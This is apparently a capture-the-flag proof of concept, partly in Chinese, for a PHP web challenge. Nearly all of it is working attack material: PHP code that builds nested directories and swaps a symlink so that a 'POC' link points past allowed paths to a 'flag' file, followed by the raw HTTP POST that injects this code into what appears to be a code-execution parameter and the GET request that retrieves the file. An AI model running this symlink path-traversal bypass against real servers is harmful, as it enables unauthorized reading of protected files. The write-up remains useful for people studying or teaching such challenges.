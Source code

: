mkdir("A");
chdir("A");
mkdir("B");
chdir("B");
mkdir("C");
chdir("C");
mkdir("D");
chdir("D");
chdir("..");
chdir("..");
chdir("..");
chdir("..");
symlink("A/B/C/D","SD");
symlink("SD/../../../../flag","POC");
unlink("SD");
mkdir("SD");

然后/POC即可下载flag文件 容器最好设置定时重启


POST / HTTP/1.1
Host: localhost:30304
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 236

1=mkdir("A");chdir("A");mkdir("B");chdir("B");mkdir("C");chdir("C");mkdir("D");chdir("D");chdir("..");chdir("..");chdir("..");chdir("..");symlink("A/B/C/D","SD");symlink("SD/../../../../flag","POC");unlink("SD");mkdir("SD");



GET /POC HTTP/1.1
Host: localhost:30304
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=1

